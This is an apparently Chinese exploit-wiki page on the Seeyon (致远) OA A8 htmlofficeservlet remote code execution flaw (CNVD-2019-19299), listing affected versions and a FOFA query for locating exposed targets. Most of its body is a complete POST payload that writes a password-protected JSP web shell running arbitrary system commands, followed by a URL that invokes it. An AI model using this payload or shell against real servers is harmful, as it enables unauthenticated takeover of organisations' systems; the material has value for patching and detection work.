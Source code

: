 # 致远 OA A8 htmlofficeservlet RCE漏洞 CNVD-2019-19299

## 漏洞描述

该漏洞最早于6月26号左右，有安全厂商发出漏洞预警。

远程攻击者在无需登录的情况下可通过向 URL /seeyon/htmlofficeservlet POST 精心构造的数据即可向目标服务器写入任意文件，写入成功后可执行任意系统命令进而控制目标服务器。

## FOFA

> [!NOTE]
>
> title="致远A8-V5协同管理软件 V6.1sp1"

## 影响版本

> [!NOTE]
>
> 致远A8-V5协同管理软件V6.1sp1
>
> 致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3
>
> 致远A8+协同管理软件V7.1

## 漏洞复现

访问目标站点 http://xxx.xxx.xxx.xxx:8088/seeyon/htmlofficeservlet

出现如下图响应，则可能含有漏洞

![](http://wikioss.peiqi.tech/vuln/zhiyuan-1.png)

使用POST请求发出如下请求包

```
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%if("calsee".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>>a6e4f045d4b8506bf492ada7e3390d7ce
```

![](http://wikioss.peiqi.tech/vuln/zhiyuan-2.png)

出现如图响应则为上传成功

访问 http://xxx.xxx.xxx.xxx:8088/seeyon/testtesta.jsp?pwd=calsee&cmd=cmd+/c+dir

![](http://wikioss.peiqi.tech/vuln/zhiyuan-3.png)

## 漏洞利用POC

Goby中含有漏洞检测POC

![](http://wikioss.peiqi.tech/vuln/zhiyuan-4.png)
